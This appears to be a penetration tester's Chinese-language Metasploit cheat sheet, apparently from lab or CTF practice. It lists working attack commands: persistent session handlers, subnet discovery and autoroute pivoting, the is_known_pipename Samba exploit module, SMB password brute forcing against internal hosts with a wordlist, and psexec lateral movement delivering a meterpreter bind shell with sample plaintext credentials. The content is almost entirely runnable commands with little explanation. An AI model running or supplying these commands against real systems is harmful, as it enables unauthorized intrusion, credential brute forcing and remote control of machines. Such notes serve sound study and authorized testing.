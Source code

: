 ## 持续监听

```
其中set exitonsession false
run -zj 
保证了我们可以持久化接受sessions会话
```



## 会话命名

```
sessions -i x -n xxx
```

![image-20250603123429126](./assets/image-20250603123429126.png)



## 网段信息收集

```
run get_local_subnets
```

![image-20250603123534424](./assets/image-20250603123534424.png)

即当前session会话主机处于10.10.135.0/24网段中

类似与

```
hostname -I
ip a
```



## win6.1

linux版永恒之蓝

```
exploit/linux/samba/is_known_pipename  
```



## 代理

```
set proxies xxx:ip:port
```

```
set proxies socks5:192.168.1.1:2000
```



## 路由

```
run post/multi/manage/autoroute
```

添加路由



## win环境乱码

```
shell
chcp 65001
```

![image-20250603125508024](./assets/image-20250603125508024.png)



## smb服务

爆破smb服务

```
search smb_login
use 0
show options
```

![image-20250603130907239](./assets/image-20250603130907239.png)

其中要设置目标主机

密码字典

线程

用户名

并取消输出结果

```
set rhost 192.168.93.10 192.168.93.20 192.168.93.30
set pass_file /home/ra1n3/top10000.txt
set smbuser administrator
set threads 50
set verbose no
run
```



接着可以利用psexec上线

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/bind_tcp
set smbuser administrator
set smbpass 123qwe!ASD
set rhost 192.168.93.20
run
```

```
set smbdomain TEST.ORG
set SMBpass zxcASDqw123!!
set rhosts 192.168.93.10
run
```

无法出网的情况要正向连接


